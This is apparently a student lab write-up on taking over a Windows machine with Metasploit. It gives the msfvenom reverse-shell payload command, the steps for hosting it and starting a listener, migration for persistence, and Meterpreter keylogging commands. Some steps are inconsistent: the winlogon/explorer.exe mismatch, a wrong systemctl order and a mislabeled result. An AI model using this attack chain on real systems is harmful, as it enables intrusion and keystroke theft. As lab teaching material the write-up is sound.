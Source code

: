 [# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/871a41d1-af11-484f-abe0-e27d58577d2c)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/b65f642b-ecfd-4042-8142-f0420f9e671c)




copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/45a0d03c-4c31-4e87-ac60-f17ff7c274bb)



Start apache server
sudo systemctl apache2 start

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/25b6f263-ea33-4cd7-8151-2d34f79f7a7b)




Check the status of apache2

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/b091ceaa-6d34-4635-adc5-01605dc97576)



Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT: 

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/26e9fa80-302c-419d-933c-9b9ede035ccb)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/115add40-9ba9-4e68-ae62-f5f6b39dc3fb)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/8c859978-ca53-4c49-9a21-c91dff67a007)




## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/84e65563-3437-468f-b789-f81e34a1823f)




keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/44f1d4ad-8590-46f5-96f8-5a961fe0e7d6)





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
](https://github.com/M-Nikhil20/Metasploit-for-reconnaissance)
